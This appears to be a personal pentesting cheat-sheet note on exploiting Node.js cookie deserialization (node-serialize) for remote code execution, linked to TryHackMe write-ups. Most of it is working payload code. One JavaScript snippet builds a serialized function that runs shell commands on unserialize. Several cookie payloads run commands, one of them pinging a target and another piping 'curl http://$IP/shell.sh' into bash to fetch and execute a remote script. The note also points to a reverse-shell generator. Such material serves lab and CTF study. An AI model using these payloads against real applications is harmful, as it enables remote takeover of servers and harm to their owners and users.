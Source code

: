 # Javascript Cookie Abuse


[[NodeJS]]

## Deserialization of Node JS Cookies 

[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) - Payload building
```js
var y = {
    rce: function() {
        require('child_process').exec('ls /', function(error, stdout, stderr) {
            console.log(stdout)
        });
    }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```js
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ping -c 3 /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```


Ping to test 
```json
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 $IP', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}`
```

Host shell.sh; encode base64 this cookie:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl http://$IP/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
Consideration on using `.exec` to directly get a reverse shell like - [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)


## References

[falseintel](https://falseintel.github.io/thm-vulnnet-node-writeup.html)
[kartikeyj96](https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/VulnNet-Node%20Writeup)
[Node.Js-Security-Course](https://github.com/ajinabraham/Node.Js-Security-Course)
[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
